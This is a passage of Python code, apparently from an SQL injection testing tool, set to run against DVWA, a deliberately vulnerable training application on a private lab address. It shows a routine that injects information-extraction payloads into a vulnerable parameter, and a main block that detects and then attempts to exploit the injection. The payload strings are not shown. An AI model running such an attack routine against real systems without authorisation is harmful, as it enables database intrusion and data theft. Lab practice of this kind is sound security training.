 ```python
        for info_type, payload in info_payloads.items():
            test_params = base_params.copy()
            test_params[vulnerable_param] = payload
            
            try:
                response = self.session.get(self.target_url, params=test_params, timeout=10)
                
                # Simple extraction (would need more sophisticated parsing in real tool)
                if response.status_code == 200 and len(response.text) > 100:
                    print(f"[+] {info_type}: Payload executed successfully")
                    extracted_info[info_type] = "Data extracted (parse response manually)"
                else:
                    print(f"[-] {info_type}: Failed or no data")
                    
            except requests.RequestException as e:
                print(f"[ERROR] {info_type}: {e}")
            
            time.sleep(1)
        
        return extracted_info

# Example usage for DVWA
if __name__ == "__main__":
    # DVWA SQL Injection (Low Security)
    dvwa_url = "http://192.168.1.10/dvwa/vulnerabilities/sqli/"
    
    print("\n" + "="*70)
    print("    SQL INJECTION TESTING TOOL")
    print("="*70)
    
    tester = SQLInjectionTester(dvwa_url)
    
    # First, you need to login to DVWA and get session cookie
    print("[*] Note: Make sure you're logged into DVWA first!")
    print("[*] Security level should be set to 'Low' for testing")
    
    # Test the 'id' parameter in DVWA
    vulnerabilities = tester.test_sql_injection('id', {'Submit': 'Submit'})
    
    if vulnerabilities:
        print(f"\n\033[91m[CRITICAL] SQL Injection vulnerabilities found!\033[0m")
        print("\nVulnerability Details:")
        for vuln in vulnerabilities:
            print(f"  Type: {vuln['type']}")
            print(f"  Payload: {vuln['payload']}")
            print(f"  Evidence: {vuln['evidence']}")
            print(f"  Response Time: {vuln['response_time']:.2f}s")
            print("-" * 30)
        
        # Attempt exploitation on first vulnerability
        if vulnerabilities:
            print("\n[*] Attempting exploitation...")
            extracted = tester.exploit_sql_injection('id', {'Submit': 'Submit'})
    else:
        print("\n\033[92m[SECURE] No SQL injection vulnerabilities detected.\033[0m")
```
